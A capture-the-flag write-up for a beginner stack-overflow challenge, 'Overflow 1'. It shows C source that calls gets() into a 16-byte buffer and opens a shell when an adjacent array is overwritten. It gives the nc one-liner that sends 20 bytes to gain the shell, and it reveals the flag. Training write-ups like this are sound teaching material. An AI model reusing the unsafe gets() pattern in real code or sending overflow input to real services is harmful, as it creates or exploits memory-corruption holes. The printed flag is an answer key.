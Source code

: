 # Overflow 1

![Binary Exploitation](https://img.shields.io/badge/Binary%20Exploitation--00aaff?style=for-the-badge) ![Points - 125](https://img.shields.io/badge/Points-125-9cf?style=for-the-badge)

```txt
ez overflow.

nc cyberyoddha.baycyber.net 10001

- Haskell#1426
```

---

Ok... in the source code you can see that an array `str` is defined near the beginning of the `main` function and that, in case it's content is not `"AAAA"` in the end, a shell will be opened:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
  char str[] = "AAAA";
  char buf[16];

  gets(buf);
  
  if (!(str[0] == 'A' && str[1] == 'A' && str[2] == 'A' && str[3] == 'A')){
    system("/bin/sh");
  }
}
```

This is, as the task description says, still an `ez` challenge ^^. In `radare`, you can see that the `str` array is right after `buf` on the stack...

![r2](./r2.png)

... so... simply pass a string that's longer than `16` characters, but also not too long ^^ you don't necessarily want to overwrite any other stack values, to the programs `stdin` (no exploit script needed for this one):

```bash
(python -c "print('B'*20)";cat) | nc cyberyoddha.baycyber.net 10001
```

... now that you have a shell, use it to `cat` the flag: `CYCTF{st@ck_0v3rfl0ws_@r3_3z}`
